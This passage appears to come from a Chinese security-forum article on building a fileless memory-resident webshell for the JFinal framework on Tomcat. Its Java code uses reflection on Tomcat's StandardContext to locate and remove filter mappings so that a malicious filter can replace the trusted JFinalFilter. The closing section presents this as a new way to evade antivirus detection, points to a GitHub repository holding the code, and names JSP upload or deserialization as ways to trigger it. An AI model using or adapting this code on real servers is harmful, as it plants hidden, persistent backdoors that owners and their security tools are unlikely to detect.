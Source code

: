 ```java
    Object[] filterMaps = getFilterMaps(standardContext);
    for (Object filterMap : filterMaps) {
        Field _filterName = filterMap.getClass().getDeclaredField("filterName");
        _filterName.setAccessible(true);
        String filterName0 = (String) _filterName.get(filterMap);
        if (filterName0.equals(filterName)) {
            Method removeFilterMap = standardContext.getClass().getDeclaredMethod("removeFilterMap",
                                                                                  new Class[]{clsFilterMap});
            removeFilterDef.setAccessible(true);
            removeFilterMap.invoke(standardContext, filterMap);
        }
    }
}
// 获取FilterConfig
public HashMap<String, Object> getFilterConfig(StandardContext standardContext) throws Exception {
    Field _filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    _filterConfigs.setAccessible(true);
    HashMap<String, Object> filterConfigs = (HashMap<String, Object>) _filterConfigs.get(standardContext);
    return filterConfigs;
}
// 获取FilterMap
public Object[] getFilterMaps(StandardContext standardContext) throws Exception {
    Field _filterMaps = standardContext.getClass().getDeclaredField("filterMaps");
    _filterMaps.setAccessible(true);
    Object filterMaps = _filterMaps.get(standardContext);
    Object[] filterArray = null;
    try {
        Field _array = filterMaps.getClass().getDeclaredField("array");
        _array.setAccessible(true);
        filterArray = (Object[]) _array.get(filterMaps);
    } catch (Exception e) {
        filterArray = (Object[]) filterMaps;
    }

    return filterArray;
}
```

0x05 效果
-------

最终效果

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-68884a8014508841017970c60783085d0ad8658e.png)

0x06 总结思考
---------

已经能够构造出内存马了，后续的步骤就是找到触发点，例如上传JSP执行或者反序列化漏洞触发，不过这就不是本文的重点了

代码地址：<https://github.com/EmYiQing/JFinalShell>

这种替换`Filter`操作实现的内存马是一种新的免杀思路：

谁都不会想到真正有问题的`filter`会是核心配置`JFinalFilter`

不只可以用于`JFinal`这种，也可以考虑`Tomcat`的`Filter`型以及各种其他框架